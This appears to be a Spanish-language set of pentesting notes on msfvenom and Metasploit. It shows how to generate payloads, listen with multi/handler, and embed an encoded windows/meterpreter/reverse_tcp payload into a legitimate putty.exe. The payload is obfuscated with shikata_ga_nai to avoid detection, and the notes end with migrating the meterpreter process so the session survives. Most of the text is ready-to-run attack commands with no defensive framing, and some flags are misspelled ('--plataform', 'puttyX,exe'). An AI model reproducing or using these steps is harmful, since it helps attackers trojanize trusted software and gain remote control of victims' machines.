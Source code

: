 * Los payloads se encuentran en -> /usr/share/metasploit-framework/modules/payloads
* Se usa `msfvenom -p` ruta del payload que queremos editar y usar `lhost="Ip de escucha"` `lport="puerto de escucha"`

```bash
msfvenom -p "ruta del payload" lhost="Ip de escucha" lport="puerto de escucha"
```

* Los payloads se pueden añadir a los exploits que encuentres por internet.
* Para recibir un meterpreter (una consola mejor) es mejor usar el exploit de metasploit -> `exploit/multi/handler`, hay que ponerle el payload generado con msfvenom.
* Con `-f` le dices el formato que quieres que tenga y `> nombre.loquesea` creas el fichero con el payload.

`multi/handler` _sirve para ponerse a la escucha, importante poner el mismo payload que vas a usar._

### Backdoors en binarios

Es hacer que un programa legitimo nos devuelva una reverse shell al ejecutarse.

Como ejemplo se usara Putty:

#### Creación del archivo

```bash
msfvenom -a x86 --plataform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=IP lport=PORT -e x86/shikata_ga_nai -i 3 -b "\x00" -f exe -o puttyX,exe
```

`-a` -> Indica la plataforma donde se va a ejecutar

`--plataform` -> Indica el SO

`-x` -> El nombre del ejecutable

`-p` -> Payload que se va a utilizar

`lhost` -> Ip de escucha

`lport` -> Puerto de escucha

`-e` -> Para codificar

`-i` -> Buretas de codificación

`-b` -> Omitir caracteres

`-f` -> formato del output

`-o` -> nombre del output

#### Migrar este proceso:

Esto es para que no se cierre la sesión cuando se cierre el programa.

En meterpreter:

```java
run post/windows/manage/migrate
```
